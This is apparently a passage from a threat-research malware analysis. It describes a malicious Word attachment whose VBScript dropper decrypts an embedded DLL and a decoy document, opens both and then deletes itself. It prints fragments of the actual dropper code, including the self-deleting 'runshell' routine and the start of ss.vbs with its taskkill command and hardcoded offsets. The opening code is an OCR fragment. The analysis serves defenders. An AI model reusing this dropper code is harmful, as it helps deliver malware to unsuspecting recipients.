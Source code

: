 ""echo       aBuf(I \ 2) = ChrW(Buf(I + 1) * 256 + Buf(I))                          >> """&bs&"""  "" ",0,true  shell.run "cmd.exe /c ""echo   Next                                                                       >> """&bs&"""  "" ",0,true  shell.run "cmd.exe /c ""echo   If I = Size Then aBuf(I \ 2) = ChrW(Buf(I))                                >> """&bs&"""  "" ",0,true  shell.run "cmd.exe /c ""echo   aBuf=Join(aBuf, """")                                                      >> """&bs&"""  "" ",0,true  shell.run "cmd.exe /c ""echo   Set bStream = CreateObject(""ADODB.Stream"")                               >> """&bs&"""  "" ",0,true  shell.run "cmd.exe /c ""echo   bStream.Type = 1: bStream.Open                                             >> """&bs&"""  "" ",0,true  shell.run "cmd.exe /c ""echo   With CreateObject(""ADODB.Stream"")                                        >> """&bs&"""  "" ",0,true  shell.run "cmd.exe /c ""echo     .Type = 2 : .Open: .WriteText aBuf                                       >> """&bs&"""  "" ",0,true  shell.run "cmd.exe /c ""echo     .Position = 2: .CopyTo bStream: .Close                                   >> """&bs&"""  "" ",0,true  shell.run "cmd.exe /c ""echo   End With                                                                   >> """&bs&"""  "" ",0,true  shell.run "cmd.exe /c ""echo   bStream.SaveToFile FileName, 2: bStream.Close                              >> """&bs&"""  "" ",0,true  shell.run "cmd.exe /c ""echo   Set bStream = Nothing                                                      >> """&bs&"""  "" ",0,true  shell.run "cmd.exe /c ""echo End Sub                                                                      >> """&bs&"""  "" ",0,true  shell.run "cmd.exe /c ""echo set shell=createobject(""Shell.Application"") >>"""&bs&"""    "" ",0,true  shell.run "cmd.exe /c ""echo shell.ShellExecute """&dn&""" >>"""&bs&"""               "" ",0,true  shell.run "cmd.exe /c ""echo shell.ShellExecute """&ename&""" >>"""&bs&"""               "" ",0,true  shell.run "cmd.exe /c ""echo Set xa = CreateObject(""Scripting.FileSystemObject"") >>"""&bs&"""                      "" ",0,true  shell.run "cmd.exe /c ""echo If xa.FileExists("""&bs&""") Then                     >>"""&bs&"""                      "" ",0,true  shell.run "cmd.exe /c ""echo Set xb = xa.GetFile("""&bs&""")                       >>"""&bs&"""                      "" ",0,true  shell.run "cmd.exe /c ""echo xb.Delete                                             >>"""&bs&"""                      "" ",0,true  shell.run "cmd.exe /c ""echo End If                                                >>"""&bs&"""                      "" ",0,true  shell.run "cmd.exe /c """&bs&"""   ",0,trueend function






Figure 4 Code block containing "runshell" function in malicious VBScript within attachment
The ss.vbs file is responsible for locating the payload and decoy document from the initial malicious document, as well as decrypting, saving and opening both of the files. The script has hardcoded offsets to the location of both the payload and decoy document within the initial document. The script will decrypt both of the embedded files using a two-byte XOR loop that skips the first byte and then decrypts the remaining using “A” and “C” as the key. After decrypting the embedded files, the script saves the decoy to “t.doc” and the payload to “mm.dll” in the “%APPDATA%\LocalData” folder. Finally, the script will open the decoy document and launch the payload by calling its exported function named “Setting”.





On Error Resume Next    
set shell=createobject("Shell.Application")      
shell.ShellExecute "cmd"," /c taskkill  -f -im winword.exe ","","",0          
wscript.sleep 3000                
dim str                                                                         
dim L1                                                                          
dim L2                                                                          
dim Len                                                                         
dim infile                                                                      
dim outfile1                                                                    
dim outfile2                                                                    
infile = "C:\Documents and Settings\<username>\Desktop\<malicious document name>.doc"                                                               
outfile1 = "C:\Documents and Settings\<username>\Local Settings\Application Data\mm.dll"                                                              
outfile2 = "C:\Documents and Settings\<username>\Local Settings\Application Data\t.doc"                                                             
L1=     78924                                                                         
L2=     38912
size=    144893                                                                    
offset1 = size-L1-L2                                                            
offset2 = size-L2                                                               
Len=0                                                                           